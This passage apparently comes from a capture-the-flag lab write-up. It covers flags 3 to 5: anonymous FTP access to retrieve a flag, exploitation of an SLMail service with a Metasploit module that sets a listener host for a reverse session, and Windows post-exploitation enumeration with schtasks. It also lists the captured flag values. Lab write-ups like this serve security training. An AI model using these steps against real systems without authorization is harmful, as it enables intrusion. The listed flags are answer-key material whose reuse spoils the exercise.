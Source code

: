### Flag 3: 

![image](https://github.com/user-attachments/assets/16da09de-87c7-44b7-a4d9-f3081f3df3bf)
</br>
```shell
ftp 172.22.117.20

Name: Anonymous
Password:

get flag3.txt

exit

cat flag3.txt

89cb548970d44f348bb63622353ae278
```

## Exploitation

### Flag 4: 

![image](https://github.com/user-attachments/assets/b4e8dc4c-1814-4a8e-b888-cf13fbeacdc9)
</br>
```shell
msfconsole

search SLMail

use 0

set RHOSTS 172.22.117.20

set LHOST 172.22.117.100

run

cat flag4.txt

822e3434a10440ad9cc086197819b49d
```

## Post-Exploitation

### Flag 5: 

![image](https://github.com/user-attachments/assets/789a220f-ceb2-431f-ac46-3f8a8a6f5019)
</br>
```shell
shell

schtasks /query /TN flag5 /FO list /v

54fa8cd5c1354adc9214969d716673f5
```
